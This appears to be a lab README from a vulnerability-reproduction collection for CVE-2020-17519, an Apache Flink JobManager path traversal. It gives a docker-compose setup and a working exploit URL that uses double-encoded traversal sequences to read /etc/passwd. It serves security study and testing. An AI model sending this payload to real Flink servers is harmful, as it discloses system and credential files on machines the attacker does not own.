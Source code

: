 # Apache Flink `jobmanager/logs` Path Traversal (CVE-2020-17519)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

A change introduced in Apache Flink 1.11.0 (and released in 1.11.1 and 1.11.2 as well) allows attackers to read any file on the local filesystem of the JobManager through the REST interface of the JobManager process.

References:

- https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801
- https://nvd.nist.gov/vuln/detail/CVE-2020-17519

## Environment Setup

Execute following commands to start a Apache Flink jobmanager 1.11.2:

```
docker-compose up -d
```

After the Apache Flink is started, visit `http://your-ip:8081` to view the homepage.

## Exploit

Disclose the `/etc/passwd`:

```
http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![](1.png)
